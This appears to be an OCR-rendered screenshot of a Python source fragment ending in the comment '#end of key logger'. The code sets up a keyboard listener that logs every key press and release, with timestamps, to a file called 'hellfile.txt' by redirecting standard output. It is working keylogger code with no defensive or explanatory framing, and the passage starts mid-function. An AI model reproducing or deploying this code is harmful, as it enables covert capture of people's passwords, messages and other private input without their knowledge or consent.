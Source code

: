     global hellfile
    hellfile=dir+"\\hellfile.txt"



    print(hellfile)
    f= open(hellfile,"w+")
    sys.stdout = f
    def on_press(key):
        try:
            f=open(hellfile, "a+")
            sys.stdout = f
            seconds = time.time()
            local_time = time.ctime(seconds)
            print(local_time, end="--------->")
            print('Alphanumeric key pressed: {0} '.format(
                key.char))
            f.close()
        except AttributeError:
            f=open(hellfile, "a+")
            sys.stdout = f
            seconds = time.time()
            local_time = time.ctime(seconds)
            print(local_time, end="--------->")
            print('special key pressed: {0}'.format(
                key))
            f.close()

    def on_release(key):
        f=open(hellfile, "a+")
        sys.stdout = f
        seconds = time.time()
        local_time = time.ctime(seconds)
        print(local_time, end="--------->")
        print('Key released: {0}'.format(
            key))
        f.close()
        if stopper == "stop":
        # Stop listener
            return False
    # Collect events until released
    with keyboard.Listener(
            on_press=on_press,
            on_release=on_release) as listener:
        listener.join()
    f.close()

#end of key logger


